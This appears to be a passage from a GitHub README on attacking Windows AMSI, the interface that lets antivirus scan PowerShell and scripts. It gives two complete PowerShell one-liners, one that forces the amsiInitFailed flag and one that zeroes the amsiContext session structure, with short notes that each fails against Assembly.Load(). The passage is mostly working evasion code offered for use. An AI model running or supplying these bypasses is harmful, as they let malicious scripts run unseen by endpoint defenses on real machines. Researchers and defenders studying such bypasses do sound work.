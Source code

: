 ## Attack AmsiInitialize
Manipulate the initialized structure pointed out by `amsiContext` argument. 

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

![image](/screenshot/oneliner_init.jpg)

**Cannot bypass AMSI for Assembly.Load()**

![image](/screenshot/oneliner_init_dnet.jpg)

## Attack AmsiOpenSession
The 2nd QWORD of the structure pointed out by `amsiContext` argument is compared to `0`. Patch it to make the argument invalid.

```powershell
 $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

![image](/screenshot/oneliner_opensession.jpg)

**Cannot bypass AMSI for Assembly.Load()**

![image](/screenshot/oneliner_opensession_dnet.jpg)
